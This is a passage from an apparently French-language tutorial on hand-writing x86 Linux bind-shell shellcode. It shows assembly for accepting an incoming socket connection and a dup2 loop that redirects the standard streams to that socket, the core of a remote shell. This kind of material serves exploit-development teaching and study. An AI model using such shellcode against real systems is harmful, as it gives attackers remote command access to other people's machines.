 ## Accepter les communications entrantes ##

Nous allons pour cette partie, utiliser cette forme  
accept(sockfd, NULL, NULL).

```c
	; Accepting the incoming connection
	; int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
	; ecx contient la valeur de sockfd
	; accept(sockfd, NULL, NULL)

	mov [ecx+0x8], eax	; we use the stack to put the second 0
	mov bl, 0x5		; syscall accept
	mov al, 0x66	
	mov ecx, esp
	int 0x80		; make the syscall socketcall(accept(sockfd,0,0))
```

<a href="../assets/images/stack_3.png" ><img src = "../assets/images/stack_3.png" width="700px" height="360px"></a>

## Redirection ##

Ici, nous redirigeons les 3 sorties vers le socket via l'appel système dup2.

```c
	xchg ebx, eax

	xor ecx, ecx
	mov cl, 0x2
_:
	mov al, 0x3f
	int 0x80
	dec ecx
	jns _

```
